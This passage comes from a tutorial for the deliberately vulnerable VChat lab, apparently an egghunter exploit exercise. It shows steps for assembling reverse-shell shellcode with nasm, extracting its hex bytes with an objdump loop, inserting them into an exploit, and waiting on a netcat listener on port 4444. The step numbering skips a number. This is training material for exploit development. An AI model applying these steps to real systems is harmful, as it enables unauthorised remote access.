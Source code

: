 		<img src="Images/I8.png" width=640>

	2) Run nasm on the target assembly, Run: **nasm -f elf32 -o shellcode.o shellcode.asm**
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format.
		* `-o shellcode.o`: Shellcode File.
		* `shellcode.asm`: Input file.

		<img src="Images/I9.png" width=640>

3) Now we can extract the binary with a simple [shell script](./SourceCode/extract.sh). If you create this file, be sure to make it executable with  the command `chmod +x extract.sh`, then you can run it using the command **./extract.sh**.
	```sh
	for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
		echo -n '\x'$i;
	done;
	echo
	```
	* `for i in`: For each value `$i` generated by the following command.
	* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
		* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
		* `grep "^ "`: Extract only those lines containing assembly.
		* `cut -f2`: Extract the second field; this contains the hex representation of the instructions.
	* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
	* `echo`: Print an extra line.

	<img src="Images/I10.png" width=640>

4) Now we can copy this shellcode into our exploit; see [exploit0.py](./SourceCode/exploit1.py) for guidance. We have already discovered how to jump back to the start of our buffer in the [original GTER exploit](https://github.com/DaintyJet/VChat_GTER_EggHunter). So, we need to perform a simple modification where we instead fill the start with our new shellcode.

6) **Step 4**. Start netcat listening on port 4444, Run: `nc -lvp 4444`
	* `nc`: netcat command.
	* `l`: Listen.
	* `v`: Verbose output.
	* `p`: Port.

	<img src="Images/I11.png" width=640>

7) Ensure that VChat is launched and attached to *Immunity Debugger*.

	<img src="Images/I12.png" width=640>

8) Run the exploit against VChat and observe the output.

	<img src="Images/I13.png" width=640>

	* Notice that we did not get a shell; this means something likely went wrong...
